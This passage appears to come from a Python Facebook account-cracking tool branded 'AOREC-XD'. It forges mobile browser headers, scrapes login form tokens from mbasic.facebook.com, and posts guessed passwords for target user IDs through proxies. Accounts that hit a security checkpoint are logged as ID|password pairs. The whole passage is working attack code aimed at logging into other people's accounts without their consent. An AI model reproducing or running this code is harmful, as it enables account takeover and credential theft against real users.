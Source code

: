 			ses.headers.update({'Host': 'mbasic.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'})
			p = ses.get('https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
			koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
			koki+=' m_pixel_ratio=2.625; wd=412x756'
			heade={'Host': 'mbasic.facebook.com','cache-control': 'max-age=0','sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="98"','sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Android"','upgrade-insecure-requests': '1','origin': 'https://mbasic.facebook.com','content-type': 'application/x-www-form-urlencoded','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','x-requested-with': 'XMLHttpRequest','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','referer': 'https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr','accept-encoding': 'gzip, deflate, br','accept-language': 'fr_FR,fr;q=0.9,en-US;q=0.8,en;q=0.7','connection': 'close'}
			po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False,proxies=proxs)
			if "checkpoint" in po.cookies.get_dict().keys():
				if 'ya' in oprek:
					akun.append(idf+'|'+pw)
					ceker(idf,pw)
				elif 'ya' in princp:
					print('\n')
					statuscp = f'[[•]] ID       : {idf} [•] PASSWORD : {pw}'
					statuscp1 = nel(statuscp, style='red')
					cetak(nel(statuscp1, title='AOREC-XD CP'))
